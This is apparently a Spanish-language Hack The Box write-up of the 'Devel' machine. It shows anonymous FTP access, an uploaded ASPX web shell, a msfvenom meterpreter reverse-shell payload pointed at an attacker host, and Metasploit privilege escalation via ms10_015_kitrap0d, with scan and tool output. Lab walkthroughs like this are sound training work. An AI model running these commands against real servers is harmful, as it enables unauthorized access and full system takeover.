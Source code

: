 # Devel ![Avatar](https://www.hackthebox.eu/storage/avatars/0fb6455a29eb4f2682f04a780ce26cb1_thumb.png)     

### Initial Scan

```nmap
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
```
### Enumeration

####FTP

Empecemos enumerando el FTP
```bash
pj@crow-foot:~$ ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:pj): Anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls -la
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
ftp> cd aspnet_client
250 CWD command successful.
ftp> ls -la
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          system_web
226 Transfer complete.
ftp> cd system_web
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          2_0_50727
226 Transfer complete.
ftp> cd 2_0_50727
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
```
Vemos que lo que tenemos es el directorio de la pagina que hay en el puerto 80, puede que podamos subir una shell

### Exploit

Usaremos una shell aspx por que es un cliente aspnet
```
https://github.com/danielmiessler/SecLists/blob/master/Web-Shells/laudanum-0.8/aspx/shell.aspx
```
La descargamos y la subimos al FTP
```ftp
put shell.aspx
```
Y accedmos a http://10.10.10.5/shell.aspx

### Privesc

Ya tenemos shell en la máquina

#### Enumeración de Usuarios

```
 Directory of C:\Users

18/03/2017  02:16 §£    <DIR>          .
18/03/2017  02:16 §£    <DIR>          ..
18/03/2017  02:16 §£    <DIR>          Administrator
17/03/2017  05:17 ££    <DIR>          babis
18/03/2017  02:06 §£    <DIR>          Classic .NET AppPool
14/07/2009  10:20 §£    <DIR>          Public
```
No tenemos acceso a ninguno pero sabemos que los usuarios con flag son babis y Administrator ya que el actual no tiene acceso a ninguna flag

#### Versiones y hotfixes

Ejecutamos el comando systeminfo aún desde la webshell
```
Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ££
System Boot Time:          1/8/2020, 1:44:56 ££
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.023 MB
Available Physical Memory: 652 MB
Virtual Memory: Max Size:  2.047 MB
Virtual Memory: Available: 1.503 MB
Virtual Memory: In Use:    544 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
```
De aquí sacamos que tenemos un windows 7 de 32 bits y sin parchear

#### Convirtiendo la web shell en reverse shell
Generamos una Rev Shell con msfvenom
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=4444 -f aspx  > shell.aspx
```
Subimos la revshell al FTP y nos conectamos a ella aprovechando que la hemos generado con msfvenom vamos a usar el exploit sugester de metasploit para poder encontrar una manera de elevar privilegios en la máquina
```
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```
Voy a hacer una excepción y lo voy a explotar con Metasploit haciendo uso de este modulo
```
exploit/windows/local/ms10_015_kitrap0d
```
Y con eso ya podriamos leer las dos flags

